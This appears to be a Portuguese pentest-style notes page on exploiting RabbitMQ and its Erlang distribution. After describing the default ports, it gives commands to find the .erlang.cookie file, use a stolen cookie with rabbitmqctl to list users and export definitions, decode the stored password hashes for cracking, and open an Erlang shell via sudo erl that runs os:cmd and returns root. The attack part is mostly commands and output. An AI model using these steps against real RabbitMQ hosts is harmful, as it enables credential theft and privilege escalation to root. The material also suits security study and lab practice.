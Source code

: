É um software de código aberto que atua como um agente de mensagens. Ele permite que aplicações enviem e recebam mensagens de forma assíncrona, através de um sistema de filas.

As portas padrão utilizadas pelo RabbitMQ são a 5672 para comunicação AMQP e a 15672 para acesso à interface de gerenciamento via HTTP, embora a porta 15671 possa ser usada com HTTPS após a configuração do certificado. O RabbitMQ utiliza outras portas para comunicação interna entre nós de um cluster e para ferramentas CLI, como a 4369 (epmd), 6000-6500 (replicação de stream) e 25672 (distribuição Erlang), mas essas portas não são tipicamente expostas externamente
#### Exploit
Podemos listar os usuários do RabbitMQ com o daemon do Erlang.
```sh
$ epmd -names
```

Para nos comunicarmos com o Erlang, precisamos do seu cookie. Costuma estar no arquivo `.erlang.cookie`.
```sh
$ find / -name *.erlang.cookie* 2>/dev/null
```
#### Emitindo comandos para o Erlang
Para emitirmos comandos ao daemon do Erlang podemos usar o `rabbitmqctl`, normalmente esse utilitário só pode ser usado pelo root e pelo usuário do rabbitmq. Nesse exemplo admitimos que o usuário seja o `rabbit`, o cookie é `UdEX5rcSZi5pg0ow` e o host é o `forge`.

Aqui verificamos o status do daemon.
```sh
$ rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge status
```

Aqui listamos os usuários.
```sh
$ rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge list_users
```

Aqui exportamos as definições do Erlang para algum arquivo json.
```sh
rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge export_definitions /tmp/definitions.json
```
#### Cracking password
Caso tenha alguma hash armazenada nas definitions podemos quebra-la de forma simples, de acordo com a [documentação do rabbitmq](https://www.rabbitmq.com/docs/passwords#this-is-the-algorithm) a hash é estruturada assim : **`base64(<4 byte salt> + sha256(<4 byte salt> + <password>))`**.

Podemos quebra-lo assim.
```sh
$ echo -n '49e6[REDACTED]BzWF' | base64 -d | xxd -p -c 100
`   e3d7ba85295d1d16[REDACTED]98073585   `
```
Depois podemos removemos os 4 bytes utilizados como salt.
```sh
295d1d16[REDACTED]98073585
```
### erl
Se quisermos nos conectar ao RabbitMQ, podemos usar o cookie, após nos conectar podemos emitir comandos no terminal do host. Esse tipo de exploração só faz sentido caso conseguirmos executar o `erl` com um usuário mais elevado com `sudo` ou um `suid`.

```sh
$ sudo erl -cookie 'UdEX5rcSZi5pg0ow' -sname rabbit@forge
Erlang/OTP 19 [erts-8.1] [source] [64-bit] [async-threads:10]

Eshell V8.1 (abort with ^G)

At last, we can start an erlang shell on the remote system.

(rabbit@forge)1>os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```



















